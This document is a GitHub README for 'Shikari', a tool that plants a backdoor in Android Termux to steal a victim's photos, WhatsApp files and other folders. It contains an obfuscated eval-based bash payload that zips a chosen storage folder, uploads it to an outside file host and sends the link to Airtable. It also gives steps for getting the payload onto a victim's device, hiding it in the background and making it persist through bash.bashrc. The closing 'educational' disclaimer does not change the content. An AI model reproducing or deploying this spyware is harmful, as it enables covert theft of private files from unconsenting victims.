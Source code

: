 
<h1 align="center">
  <br>
  <a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/shikari.gif" alt=""></a>
  <br>
  Shikari
  <br>
</h1>

<h4 align="center">Create Backdoor in Termux</h4>

## Features

✓ First time on internet 😎 , Give credit if you are going to copy my code.</br>
✓ You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

✓ All things happen in background.</br>
✓ Not Easily Detectable</br>
✓ You will get notifications through Email ;)</br>

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
copy below code and paste it in your Bash/Shell Script.

```
#!/bin/bash

api=
base=
table=
folder=

z="
";cCz=' {" ';mCz='/Shi';kBz='om/v';hCz=' "Na';NCz='Cont';eCz='fiel';VBz='nk2';TBz=' lin';lCz='4You';Cz='shik';iBz='rtab';jBz='le.c';uz='[]=@';xCz=' '\''"'\''';Jz='echo';iz='$fol';ICz='eare';BDz='}'\''" ';XCz='  "'\''';mBz='ase/';FCz='oriz';Xz='all ';KCz='pi" ';MCz='ipt2';jz='der ';ADz=']" >';Bz='pt=.';qBz='crip';kCz='Bhai';rBz='t2';bCz='    ';xz='s://';fBz='tps:';Az='scri';hz='red/';xBz=' "" ';YBz='dev/';uCz='$(ca';TCz='on" ';Yz='zip ';cBz='v -X';tBz='tf "';Wz='inst';qCz='ript';RBz=' htt';nz=' /de';oCz='" >>';HBz=' > l';VCz='data';tz='iles';vz='ari.';ABz='ninj';aCz=': ["';Gz='k';CBz='load';Ez='pt2=';gBz='//ap';OCz='ent-';PBz='2 | ';XBz='&> /';bBz='rl -';eBz='T ht';Fz='.hac';nBz='$tab';Tz='vice';UBz='f li';ez='hika';JCz='r $a';Zz='-y &';wCz='nk)"';dCz='   "';GCz='atio';wz='http';Nz='/sha';aBz=' "cu';Vz='pkg ';IBz='ink2';Iz=' \'\''';pz='ll';iCz='me"'\''';lBz='0/$b';SCz='n/js';Lz='/sto';jCz=': " ';kz='devi';BBz='a/up';PCz='Type';EBz='?out';cz='ull';vCz='t li';mz='g &>';tCz=' "'\'' ';pBz='> $s';fCz='ds"'\''';QCz=': ap';bz='ev/n';lz='celo';vBz=' >> ';ACz='  -H';pCz=' $sc';sBz='prin';Mz='rage';rCz='2';dz='-r s';FBz='put=';MBz='f de';LCz='$scr';CCz='tf '\''';DBz='.php';ECz='Auth';QBz='grep';Pz='term';Hz='ps='\''';WBz='rvf ';az='> /d';Uz='log';OBz='link';rz=' -i ';fz='ri.z';NBz='cat ';SBz='ps >';WCz=' '\''{"';Kz='cd ~';HCz='n: B';Oz='red';sCz='," >';wBz='pt2';BCz=' " >';UCz='  --';qz='curl';uBz='$ps"';RCz='plic';sz='-F f';ZCz='rds"';yCz='}" >';YCz='reco';hBz='i.ai';gz='ip ~';GBz='text';yBz='>> $';DCz='"'\'' >';Rz='nfo ';nCz='kari';Dz='ari';oBz='le" ';KBz='1';yz='tmp.';Sz='> de';dBz=' POS';oz='v/nu';JBz=' 2>&';LBz='rm -';ZBz='null';gCz=': {"';Qz='ux-i';
eval "$Az$Bz$Cz$Dz$z$Az$Ez$Fz$Gz$z$Hz$Iz$z$Jz$z$Kz$Lz$Mz$Nz$Oz$z$Pz$Qz$Rz$Sz$Tz$Uz$z$Vz$Wz$Xz$Yz$Zz$az$bz$cz$z$Yz$dz$ez$fz$gz$Lz$Mz$Nz$hz$iz$jz$kz$lz$mz$nz$oz$pz$z$qz$rz$sz$tz$uz$Cz$vz$Yz$wz$xz$yz$ABz$BBz$CBz$DBz$EBz$FBz$GBz$HBz$IBz$JBz$KBz$z$LBz$MBz$Tz$Uz$z$NBz$OBz$PBz$QBz$RBz$SBz$TBz$Gz$z$LBz$UBz$VBz$z$LBz$WBz$Cz$vz$Yz$XBz$YBz$ZBz$z$Jz$aBz$bBz$cBz$dBz$eBz$fBz$gBz$hBz$iBz$jBz$kBz$lBz$mBz$nBz$oBz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$ACz$BCz$pBz$qBz$rBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$ECz$FCz$GCz$HCz$ICz$JCz$KCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$ACz$BCz$pBz$qBz$rBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$NCz$OCz$PCz$QCz$RCz$GCz$SCz$TCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$UCz$VCz$WCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$XCz$vBz$LCz$MCz$z$sBz$tBz$YCz$ZCz$vBz$LCz$MCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$aCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$cCz$yBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$dCz$eCz$fCz$vBz$LCz$MCz$z$sBz$tBz$gCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$bCz$hCz$iCz$vBz$LCz$MCz$z$sBz$tBz$jCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$kCz$lCz$mCz$nCz$oCz$pCz$qCz$rCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$sCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$bCz$tCz$yBz$Az$wBz$z$sBz$tBz$OBz$oCz$pCz$qCz$rCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$jCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uCz$vCz$wCz$vBz$LCz$MCz$z$Jz$xCz$vBz$LCz$MCz$z$sBz$tBz$bCz$bCz$bCz$yCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$bCz$yCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$ADz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$BDz$yBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz"
```

+ Add your API id, base id and table id without space.
+ Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music)
+ Then save it "shikari.sh" and upload on your GitHub account.
### Step 5

+ Now you can download "shikari.sh" script on victim device by wget command.
+ You can add this command in any script.

Example.,
```
wget https://raw.githubusercontent.com/.../../master/shikari.sh
```

### Background Process
+ Add this code in your new hack.sh script for background process.
```
_evalBg() {
eval "$@" &>/dev/null & disown;
}
cmd="bash shikari.sh";
_evalBg "${cmd}";
```
### logic
When someone open termux everytime you will get /storage/folder of victim.
+ You need to follow this step..(add below code in your Bash script)
```
mv hack.sh $PREFIX/etc/bin 
echo "bash hack.sh" >> $PREFIX/etc/bash.bashrc
```

### Limitation
+ You can't get any folder if your victim have no storage permission on Termux.
+ add this command in your script for Storage permission.
```
termux-setup-storage
```

### Email Setup
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203554.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203648.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203715.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203743.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203810.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-204013.jpg"></a>

+ Setup according your need , when someone use your script then automatically backdoor
Created on victim device, everytime your victim open termux you will get his data through Email !!
+ After uploading folders, airtable will send you download link ;)

### Demo Screenshots
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205246_105.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205251_263__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205256_944__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205300_548.jpg"></a>

### How it works ??
+ Shikari is API based tool 🦴

```
curl -v -X POST https://api.airtable.com/v0/#baseid/#tablename \
  -H "Authorization: Bearer #apikey" \
  -H "Content-Type: application/json" \
  --data '{
  "records": [
    {
      "fields": {
        "Name": "#toolname",
        "link": "https://bhai4you.blogspot.com"
      }
    }
  ]
}'
```
✓ All files uploaded through Airtable API
✓ Change #baseid, #apikey, #tablename, #toolname and save it demo.sh
✓ bash demo.sh [for testing]
### Disclaimer
The tutorial and demo provided for informational and educational purpose only, and for those who’re willing and curious to know and learn about Ethical Hacking, Security and Penetration Testing.</br></br> Any time the word “Hacking” that is used on this Application shall be regarded as Ethical Hacking.</br></br>
You shall not misuse the information to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.

